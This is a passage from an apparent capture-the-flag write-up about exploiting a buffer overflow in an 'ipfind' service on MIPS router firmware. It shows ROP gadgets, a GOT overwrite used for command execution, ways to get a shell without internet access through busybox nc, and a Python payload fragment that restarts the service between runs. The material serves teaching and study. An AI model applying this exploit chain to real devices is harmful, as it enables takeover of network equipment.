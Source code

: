 ```
.text:00400F34 8F 99 80 8C                 la      $t9, net_get_hwaddr
8F 99 80 8C    lw $t9, -0x7f74($gp)
```

So we should restore the `$gp` register firstly, you can also search it in the results of ROPgadget:

```
0x00400c9c : lw $gp, 0x10($sp) ; lw $ra, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x20
```

Finally, just find a gadget that `$a0` points to the bottom of the stack, such as `memset`, after modifying the GOT, you can execute any command:

```
.text:00401768 27 A4 00 21                 addiu   $a0, $sp, 0x35C+var_33B  # s
.text:0040176C 00 00 28 21                 move    $a1, $zero       # c
.text:00401770 8F 99 80 78                 la      $t9, memset
.text:00401774 03 20 F8 09                 jalr    $t9 ; memset
.text:00401778 24 06 00 FF                 li      $a2, 0xFF        # n
```

But how to get the flag through a single command, the target environment is not connected to the Internet, which means that the reverse shell cannot be used, the udp port must be reused. First of all, I would like to know whether the target environment has something like nc. If it happens to be a FirmAE environment, then you could use busybox in the `/firmadyne/` directory to start a udp_bind_shell directly. Unfortunately, the nc of busybox was changed to nx by me, I don’t know if you can guess it.

```
.rodata:0057401F                 .byte 0x6E  # n
.rodata:00574020                 .byte 0x78  # x
.rodata:00574021                 .byte    0
.rodata:00574022                 .byte 0x6E  # n
.rodata:00574023                 .byte 0x65  # e
.rodata:00574024                 .byte 0x74  # t
.rodata:00574025                 .byte 0x73  # s
.rodata:00574026                 .byte 0x74  # t
.rodata:00574027                 .byte 0x61  # a
.rodata:00574028                 .byte 0x74  # t
.rodata:00574029                 .byte    0
```

If not, let’s `echo` to send out a binary. Due to the length of the initial recvfrom, the buffer overflow padding, and the expansion of the base64 encoding, a command can only contain a few hundred characters. I am too lazy to compile, generate and streamline the binary, so it would be great if the command can be executed multiple times, we can restart the vulnerability service after exploiting the vulnerability:

```python
        bof_payload += cmd
        if restart == True:
            bof_payload += "rm /var/run/ipfind-br0.pid;ipfind br0 &\x00"
        else:
            bof_payload += "\x00"
```
